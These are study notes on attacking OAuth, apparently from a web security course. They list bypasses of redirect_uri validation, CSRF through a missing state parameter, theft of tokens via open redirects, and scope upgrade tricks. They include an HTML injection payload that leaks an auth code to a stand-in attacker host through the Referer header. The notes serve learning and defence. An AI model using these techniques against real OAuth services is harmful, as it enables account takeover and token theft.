## Exploiting Vulnerabilities
OAuth Client App Vulnerabilities

Improper implementation of implicit grant type
* tokens are sent via the browser (grant type is designed for single page apps)
* userID and token value stored somewhere to maintain the session.
* POST request to have token associated with user (without a password, implicit trust)

Flawed CSRF Protection
* state param should contain unguessable value (hash tied to user)
   	* sort of like a csrf token

OAuth Service Vulnerabilities

Leaking Auth codes/access tokens
* OAuth services reknowned for leaking it's own cookies via config settings
* Access victims data / compromise their account / log in as victim 
* Dependent on grant type
* code/token set via call to /callback endpoint specified in redirect_uri
* IF Oauth doesn't validate, could construct CSRF (tricky victim browser into initiating OAuth flow)
* Steal the code before it is used, send code to /callback endpoint to get access to account
   	* Don't need to know client secret/access token if you have account access
* Using state or nonce potection doesn't prevent attacks.

Flawed redirect_uri validation
* Clients should provide an allowlist of genuine callback URI's (for validation)
* Still ways to bypass (play around with redirect_uri to understand its behaviour)
   	* maybe it only validates start/end of the input URI
   	* try adding multiple with & (SSRF and CORS)
   	* duplicate redirect_uri parameters (maybe it only looks at first/second?)
   	* maybe localhost is permitted? register domain name localhost.badstuff.com.au

Stealing codes / access tokens via proxy page
* Try and get redirect_uri to point to other pages on allowlisted domain. 
   	* Access those domains and play around with that.
* Dir Traversal to the end of valid URI's?
* Look for open redirects.
   	* Use this as a proxy to forward victims (with code/token) to your controlled domain
* Dangerous JS that handles query params / URL Fragments
* XSS Vulnerabilities
* HTML injection vulnerabilities
   	* Leak code via referer header: <img src="evil-user.net"> (might send full URL in referer header of request)

Flawed scope validation
* User must always approve the requested access based on scope definted in auth request
* Token should only alow access to data in that scope approved.
* Can an attacker upgrade a token?
* Dependent on grant type:
* Scope Upgrade: Auth Code Flow
   	* Can't manipulate directly
   	* register own client with OAuth service
* Scope Upgrade: implicit flow
   	* manually add new scope param with stolen access token
   	* OAuth service should validate scope value, doesn't always happen

Unverified user registration
* Implicit assumption that OAuth data is correct
* Can be issues on the OAuth providers side.



